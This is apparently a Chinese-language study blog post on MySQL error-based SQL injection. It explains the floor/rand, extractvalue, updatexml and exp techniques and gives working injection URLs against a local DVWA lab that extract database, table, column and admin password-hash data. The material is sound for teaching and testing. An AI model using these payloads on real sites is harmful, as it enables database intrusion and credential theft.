 ```yaml
---
title: 《Web攻防安全实战》学习总结：SQL注入实战——数据库报错注入
date: 2021-01-17 16:02:24
index_img: /img/websecurity.png
banner_img: /img/websecurity.png
tags:
  - 安全
  - Web安全
categories:
  - Web安全
  - SQL注入
---
```

# 报错注入
## MySQL报错注入主要分类
1、BigInt等数据类型溢出
2、Xpath语法错误
3、count() + rand() + group_by()导致重复
4、空间数据类型函数错误

## 报错注入常用函数
### 1、floor函数
#### 相关函数：
```
floor(): 去除小数部分
count(x): 返回x数据集的数量
rand(): 产生随机数
rand(x): 每个x对应一个固定的值，但是如果连续执行多次值会变化，不过也是可预测的
floor(rand(0)*2):对应的有规律数列为 011011...
```
#### 注入SQL：
```
select count(*) ,concat(database(),floor(rand(0)*2))x from test group by x ：x表示前面括号内的别名
```
#### 报错信息：
```
Can't write；duplicate key in table ‘/tmp/#sql935_27_2f’
```
#### 原理剖析：
该注入的关键函数是group by x，即group by (floor(rand(0)*2))；首先明白两个概念：group by查询会新建一张虚拟表，保存查询的结果，而rand函数每被调用一次就会进行一次计算。
如下图，sql语句第一次执行时，floor(rand(0)*2)=0，查询虚拟表主键0，不存在，判断直接插入，在插入时会在group by x再次计算floor(rand(0)*2)=1，因此实际插入的主键值=1；第二次查询时floor(rand(0)*2)=1，主键存在，主键直接+1插入即可；再次进行floor(rand(0)*2)计算，此时是floor(rand(0)*2)的第四次运算，值为0，需要插入主键为0的数据，和第一次插入一样，执行过程会运行group by x，实际插入的主键值变成1，导致主键重复，数据库报错。
![fileupload](/img/sql/errorbase/error1.png)

### 2、extractvalue函数（最多32字符）
extractvalue() :对XML文档进行查询的函数

其实就是相当于我们熟悉的HTML文件中用 <div><p><a>标签查找元素一样
语法：extractvalue(目标xml文档，xml路径)

第二个参数 xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，
如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。
正常查询 第二个参数的位置格式 为 /xxx/xx/xx/xx ,即使查询不到也不会报错
#### 注入SQL：
```
?id=1' and extractvalue(1, concat(0x7e (select @@version))) --'
```
#### 原理剖析：
使用concat函数，将错误信息进行拼接，使用0x7e波浪号，extractvalue函数无法处理的字符，防止select @@version 被截断
![fileupload](/img/sql/errorbase/error2.png)

### 3、updatexml函数
updatexml()函数与extractvalue()类似，是更新xml文档的函数。
语法updatexml(目标xml文档，xml路径，更新的内容)

extractvalue()、updatexml()能查询字符串的最大长度为32，就是说如果我们想要的结果超过32，就需要用substring()函数截取，一次查看32位
#### 注入SQL：
```
?id=2' and updatexml(1, concat(0x7e (select @@version))) --'
```

### 4、exp()函数
#### 相关函数
～():取反函数，例如一个正数取反，会变成一个负数，负数用数字形式表示是一个很庞大的数字，传入exp会导致exp函数无法处理从而报错，如下图：
![fileupload](/img/sql/errorbase/error3.png)
注意，exp()产生错误，只会返回执行语句的表达式，需要联合后端脚本语言进行解析，从而返回相应的执行结果
## 报错注入实战
### 使用extractvalue()函数获取用户和数据库名
```
http://127.0.0.1:8881/vulnerabilities/sqli/?id=' and extractvalue(1, concat(0x7e, user(), 0x7e,database())) -- &Submit=Submit#
```
![fileupload](/img/sql/errorbase/error4.png)

### 使用floor函数获取用户表名
```
http://127.0.0.1:8881/vulnerabilities/sqli/?id=' union select 1,2 from (select count(*), concat((select table_name from information_schema.tables where table_schema='dvwa' limit 2, 1),'|',floor(rand(0)*2))x from information_schema.tables group by x)a -- &Submit=Submit#
```
![fileupload](/img/sql/errorbase/error5.png)

### 使用extractvalue()函数获取用户表字段
```
http://127.0.0.1:8881/vulnerabilities/sqli/?id=' and extractvalue(1, concat(0x7e, (select column_name from information_schema.columns where table_name='users' limit 3,1))) -- &Submit=Submit#
```
![fileupload](/img/sql/errorbase/error8.png)

### 使用floor函数获取用户名密码
```
http://127.0.0.1:8881/vulnerabilities/sqli/?id=' union select 1,2 from (select count(*), concat((select user from dvwa.users limit 0,1),'|',    floor(rand(0)*2))x from information_schema.tables group by x)a -- &Submit=Submit#

http://127.0.0.1:8881/vulnerabilities/sqli/?id=' union select 1,2 from (select count(*), concat((select password from dvwa.users limit 0,1),'|',    floor(rand(0)*2))x from information_schema.tables group by x)a -- &Submit=Submit#
```
![fileupload](/img/sql/errorbase/error6.png)
![fileupload](/img/sql/errorbase/error7.png)

⚠️注意：使用extractvalue函数获取密码时，最大长度为32位，密码hash很有可能被截断，导致获取不全，需要结合mid函数获取。
```
# 第一次获取前29位
http://127.0.0.1:8881/vulnerabilities/sqli/?id=' and extractvalue(1, mid(concat(0x7e,(select password from dvwa.users limit 0,1)),1,29)) -- &Submit=Submit#
# 第二次从第29位获取29位
http://127.0.0.1:8881/vulnerabilities/sqli/?id=' and extractvalue(1, mid(concat(0x7e,(select password from dvwa.users limit 0,1)),29,29)) -- &Submit=Submit#
```
![fileupload](/img/sql/errorbase/error9.png)
![fileupload](/img/sql/errorbase/error10.png)
两次结果拼接和floor函数取出的admin密码一致。
